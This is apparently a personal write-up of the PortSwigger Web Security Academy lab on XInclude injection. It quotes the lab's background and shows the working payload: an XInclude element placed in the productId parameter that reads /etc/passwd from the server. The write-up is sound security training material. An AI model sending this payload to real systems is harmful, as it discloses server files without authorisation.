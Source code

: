 ```yaml
---
title: 'Lab: Exploiting `XInclude` to retrieve files'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# Lab: Exploiting `XInclude` to retrieve files
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. 
* Goal:  To solve the lab, inject an `XInclude` statement to retrieve the contents of the /etc/passwd file. 
* Hint: By default, `XInclude` will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior. 

## Background
> XInclude is a part of the XML specification that allows an XML document to be built from sub documents You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server side XML document
> 
> To perform an XInclude attack you need to reference the XInclude namespace and provide the path to the file that you wish to include
>
>For example:
>    ```xml!
>    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
>    <xi:include parse="text" href="file:///etc/passwd"/></foo>
>    ```

---
[淺析xml之xinclude & xslt](https://lonelysec.com/%E6%B7%BA%E6%9E%90xml%E4%B9%8Bxinclude-xslt/)
>xinclude可以理解為xml include熟悉編譯腳本語言的一定熟知，像php的include，python和java的import都是可以進行檔案包含的。

## Recon
In this lab, the package did not contain the xml format data so I can't control DTD to launch a classic XXE.
Therefore, we can use xinclude?
![](https://i.imgur.com/X4AUgv9.png)

## Exp
Just use the payload at background section and replace `productID`'s data to exploited payload.
$\to$
```xml!
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
:::spoiler Success Screenshot
![](https://i.imgur.com/k87rQpi.png)

---
![](https://i.imgur.com/J8W0JPF.png)

:::

## Reference